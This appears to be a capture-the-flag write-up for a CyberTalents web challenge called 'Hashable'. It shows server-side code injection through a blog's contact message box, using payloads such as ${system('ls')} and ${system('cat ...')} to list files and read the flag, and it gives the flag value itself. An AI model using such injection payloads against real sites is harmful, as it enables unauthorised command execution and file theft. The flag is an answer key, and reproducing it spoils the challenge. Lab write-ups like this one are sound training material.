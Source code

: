 # Challenge Name:
 [*Hashable*](https://cybertalents.com/challenges/web/hashable)
 
# Challenge Description
A famous enterprise blog was hacked, can you figure out how it was hacked?

Link: [ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/hashable/](ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/hashable/)

## Answer
* We must try in every user input field (URL and contact page)
* Try some special characters in the textboxes it doesn't filtered
* Try to injuct code in massager box 
```
${system('pwd')}
```
* It works so now get files list
```
${system('ls')}
```
* Open flag text file
```
${system('cat flag_23894ABCX1.txt')}
```
* You got the flag!!


 ## The Flag
 > 18ab51f960bd149bcb2497b9998c752c 
